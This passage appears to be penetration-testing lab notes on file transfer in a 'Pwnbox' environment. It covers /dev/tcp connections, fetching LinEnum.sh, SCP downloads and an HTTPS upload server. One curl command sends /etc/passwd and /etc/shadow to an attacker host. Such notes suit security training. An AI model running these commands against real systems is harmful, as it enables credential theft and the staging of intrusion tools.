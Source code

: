 ```

#### simple tcp connection
```
$ exec 3<>/dev/tcp/10.10.10.32/80
```


#### HTTP GET Request
```    
$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
$ cat <&3
```

## SSH Downloads

#### Enabling the SSH Server

```
$ sudo systemctl enable ssh

$ sudo systemctl start ssh

```


#### Downloading Files Using SCP
```
$ scp plaintext@192.168.49.128:/root/myroot.txt .
```

    

## Upload Operations

#### Configure http/https server
```
$ python3 -m pip install --user uploadserver
```
#### Pwnbox - Create a Self-Signed Certificate

```
$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

```
    !The webserver should not host the certificate. We recommend creating a new directory to host the file for our webserver.


#### Fire Up webserver
```
    $ mkdir https && cd https
```
```
    $ python3 -m uploadserver 443 --server-certificate /path/to/certificate
```

#### Upload files from linux machine


```
    $ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
- We used the option --insecure because we used a self-signed certificate that we trust.


## Some webserver solutions
```